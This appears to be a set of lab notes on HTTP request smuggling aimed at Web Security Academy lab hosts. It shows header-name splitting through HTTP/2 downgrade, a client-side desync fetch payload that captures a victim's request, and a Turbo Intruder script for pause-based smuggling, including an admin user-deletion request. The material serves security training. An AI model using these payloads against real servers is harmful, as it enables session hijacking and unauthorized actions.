 # Header Name Splitting

You'll find some servers don't let you use newlines in header names, but do allow colons. This only rarely enables full desynchronization, due to the trailing colon appended during the downgrade:
http2 req.
`
:method											| GET
:path												| /
:authority									| redacted.net
transfer-encoding: chunked	|	
`
http/1.1 res.
`
GET / HTTP/1.1
Host: redacted.net
transfer-encoding: chunked: 
`
It's better suited to Host-header attacks, since the Host is expected to contain a colon, and servers often ignore everything after the colon:
`
:method						|GET
:path							|/
:authority				|example.com
host: psres.net		|443
`
`
GET / HTTP/1.1
Host: example.com
Host: psres.net: 443
`
```js
fetch('https://0ae500b703a4d37580e70dd200160020.h1-web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0ae500b703a4d37580e70dd200160020.h1-web-security-academy.net\r\nCookie: session=p9lZsHnJfmKlqDhAS4cYqTvmV8YsFWql;_lab_analytics=bvD4R2gADi2JHlanph70z3Qct09t0HPFLEHZ0xaV13qA0cSJIqJl99A7cfBJsPetbeWjVh5ARizGDwG8kCgP2KNDqYKeGgMo33oCfJ9XyGERswXOtuo7LXfuYJ9YGiAI2Aj5TZnFfePJFU5aL8Dq5Neb1WPIRpM8fBMpwUy2Flb3c2RPUR355E6clcv2GQC9vAjtzudmQ0Z4z9agAbqgnXHY4jOdRy2MpNUgo7hZtrdzka2DRPxD6PQ0t4jEF40s\r\nContent-Length: 800\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=fN7Ry4dPwbFGi7F7ZNVUhqyH5oSTrout&postId=10&name=wiener&email=wiener@web-security-academy.net&website=https://portswigger.net&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://0ae500b703a4d37580e70dd200160020.h1-web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

## Server-side pause-based request smuggling
### using turbo intruder
```py
def queueRequests(target, _):
    engine = RequestEngine(endpoint="https://lab-id.web-security-academy.net:443",
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )
    
    # attack request
    attack_request = """POST /resources HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: %s

%s"""

    # smuggled request GET
    smuggled_request = """GET /uripathdoesnotexist/ HTTP/1.1
Host: lab-id.web-security-academy.net

"""

    # smuggled request POST
    # smuggled_request = """POST /admin/delete/ HTTP/1.1
# Content-Length: 53
# Cookie: session=REPLACE-ME
# Host: localhost

# csrf=REPLACE-ME&username=carlos

# """

    # normal request
    normal_request = """GET / HTTP/1.1
Host: lab-id.web-security-academy.net

"""
    engine.queue(attack_request, [len(smuggled_request), smuggled_request], pauseMarker=['\r\n\r\nGET'], pauseTime=61000)
    engine.queue(normal_request)


def handleResponse(req, _):
    table.add(req)

```

